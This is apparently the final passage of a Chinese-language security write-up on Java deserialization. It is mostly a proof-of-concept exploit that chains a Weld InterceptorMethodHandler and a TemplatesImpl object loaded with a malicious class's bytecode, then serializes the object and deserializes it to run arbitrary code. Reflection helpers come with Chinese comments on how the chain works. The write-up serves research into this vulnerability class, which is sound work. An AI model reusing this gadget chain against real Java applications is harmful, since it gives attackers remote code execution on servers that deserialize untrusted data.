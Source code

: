```
        SimpleInterceptorMetadata simpleInterceptorMetadata = new SimpleInterceptorMetadata(interceptorReference, true, hashMap);
        builder.interceptAll().with(simpleInterceptorMetadata);
        InterceptionModel model = builder.build();

        HashMap map = new HashMap();
        map.put("heihu577", "heihu577");
        DefaultInvocationContextFactory factory = new DefaultInvocationContextFactory();
        InterceptorInstantiator interceptorInstantiator = new InterceptorInstantiator() {
            @Override
            public Object createFor(InterceptorReference interceptorReference) {
                return templatesImpl;
            }
        };
        InterceptorMethodHandler evilObj = new InterceptorMethodHandler(map, metadata, model, interceptorInstantiator, factory);
        new ObjectOutputStream(new FileOutputStream("D:/1.ser")).writeObject(evilObj);
        new ObjectInputStream(new FileInputStream("D:/1.ser")).readObject();
    }

    // 通过反射获取成员属性
    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }

    // 通过反射创建实例
    public static <T> T getObjByReflection(Class<T> clazz, Class[] args, Object[] argsValue) throws Exception {
        Constructor declaredConstructor = clazz.getDeclaredConstructor(args);
        declaredConstructor.setAccessible(true);
        return (T) declaredConstructor.newInstance(argsValue);
    }

    public static TemplatesImpl getTemplatesImpl() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes"); // 最终调用到 defineClass 方法中加载类字节码
        Field name = templates.getClass().getDeclaredField("_name"); // 放置任意值
        Field tfactory = templates.getClass().getDeclaredField("_tfactory");
        name.setAccessible(true);
        bytecodes.setAccessible(true);
        tfactory.setAccessible(true);
        byte[][] myBytes = new byte[1][];
        myBytes[0] = Repository.lookupClass(Evil.class).getBytes(); // 这个恶意类必须继承`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`抽象类, 之前有分析过, 就不提及了.
        bytecodes.set(templates, myBytes);
        name.set(templates, "");
        tfactory.set(templates, new TransformerFactoryImpl());
        return templates;
    }
}

```  
## Ending...  
  
  
  
